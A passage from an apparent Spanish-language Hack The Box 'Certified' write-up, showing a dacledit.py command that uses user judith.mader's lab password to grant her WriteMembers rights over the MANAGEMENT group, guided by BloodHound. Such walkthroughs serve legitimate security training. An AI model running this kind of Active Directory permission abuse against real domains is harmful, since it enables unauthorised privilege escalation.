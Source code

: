 Que lo podemos encontrar si pinchamos en el grupo "management" y nos metemos en la información:

![image](../zimages/Pasted_image_20250323224756.png)

Con  `dacledit.py` editamos los permisos del usuario judith.mader para añadir el permiso "Addmembers"

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

![image](../zimages/Pasted_image_20250323224849.png)

Nos volvemos al BloodHound a mirar la próxima instrucción:

![image](../zimages/Pasted_image_20250323224920.png)
